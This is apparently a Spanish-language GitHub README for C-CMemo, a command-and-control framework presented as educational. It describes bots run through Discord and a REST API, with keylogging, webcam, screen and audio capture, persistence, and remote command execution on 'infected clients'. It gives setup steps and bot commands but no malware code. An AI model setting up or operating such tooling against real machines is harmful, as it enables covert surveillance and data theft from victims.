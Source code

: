 # C-CMemo - Framework de Comando y Control

C-CMemo es un framework de Comando y Control (C&C) diseñado con fines educativos que permite gestionar bots a través de Discord y una API REST. El sistema incluye características avanzadas de logging, autenticación y manejo de bots.

⚠️ **AVISO LEGAL**: Este software es exclusivamente para propósitos educativos y de investigación en entornos controlados.

## 📋 Características Principales

- 🤖 Bot de Discord integrado para control remoto
- 🌐 API REST para gestión programática
- 📊 Panel de administración con estadísticas
- 🔒 Sistema de autenticación y encriptación
- 📝 Logging extensivo y monitoreo
- 🔄 Persistencia y gestión de estados
- 📸 Captura de pantalla y webcam
- 🎤 Grabación de audio
- ⌨️ Keylogger integrado
- 🌍 Soporte para Windows y Linux

## 🏗️ Estructura del Proyecto

```
C-CMemo/
├── config/
│   ├── config.ini
│   ├── config_bot.ini
├── src/
│   ├── discord_bot.py
│   ├── servidor.py
│   ├── clienteinfectado.py
├── docs/
│   ├── eula_servidor.txt
│   ├── eula_cliente.txt
├── README.md
```

## Configuración

### config.ini

Este archivo contiene la configuración para el servidor.

```ini
[NETWORK]
HOST = 127.0.0.1
PORT = 5000
MAX_CONNECTIONS = 10

[DATABASE]
DB_PATH = bbdd/bots.db

[SECURITY]
SECRET_KEY = MiClaveSuperSecreta
HASH_ALGORITHM = SHA256

[LOGGING]
LOG_LEVEL = INFO
LOG_DIR = logs
CLIENT_LOG_FILE = client.log
SERVER_LOG_FILE = server.log
```

### config_bot.ini

Este archivo contiene la configuración para el bot de Discord.

```ini
[DISCORD]
BOT_TOKEN = TU_DISCORD_BOT_TOKEN
CONNECTIONS_CHANNEL_ID = TU_CONNECTIONS_CHANNEL_ID
COMMANDS_CHANNEL_ID = TU_COMMANDS_CHANNEL_ID
GENERIC_RESPONSES_CHANNEL_ID = TU_GENERIC_RESPONSES_CHANNEL_ID
SCRIPT_RESPONSES_CHANNEL_ID = TU_SCRIPT_RESPONSES_CHANNEL_ID
BOT_INFO_RESPONSES_CHANNEL_ID = TU_BOT_INFO_RESPONSES_CHANNEL_ID
```

## Uso

### 1. Configuración del Servidor

1. Instalar las dependencias necesarias:

   ```bash
   pip install -r requirements.txt
   ```
2. Configurar el archivo `config.ini` con tus ajustes deseados.
3. Ejecutar el servidor:

   ```bash
   python src/servidor.py
   ```

### 2. Configuración del Bot de Discord

1. Crear un bot de Discord y obtener el token del bot. Sigue las instrucciones [aquí](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Configurar el archivo `config_bot.ini` con tu token de bot y los IDs de los canales.
3. Ejecutar el bot de Discord:

   ```bash
   python src/discord_bot.py
   ```

### 3. Configuración del Cliente Infectado

1. Configurar el archivo `config.ini` con la IP y el puerto del servidor.
2. Ejecutar el cliente infectado:

   ```bash
   python src/clienteinfectado.py --host <SERVER_IP> --port <SERVER_PORT> --key <SECRET_KEY>
   ```

## Comandos

### Comandos del Bot de Discord

- **!listar_bots**: Lista los bots conectados.
- **!enviar_comando <comando_windows> <comando_linux>**: Envía un comando a los bots conectados.
- **!cerrar_conexion <bot_id>**: Cierra la conexión con un bot específico.
- **!menu_comandos**: Muestra el menú de comandos.
- **!ayuda**: Muestra el mensaje de ayuda.

### Endpoints de la API del Servidor

- **GET /listar_bots**: Lista los bots conectados.
- **POST /enviar_comando**: Envía un comando a los bots seleccionados.
- **POST /cerrar_conexion**: Cierra la conexión con un bot específico.

## Licencia

Este proyecto es solo para fines educativos y de investigación. El uso de este software en redes no autorizadas está prohibido. El usuario debe cumplir con las leyes de su país. El autor no se hace responsable de cualquier uso indebido de este software.

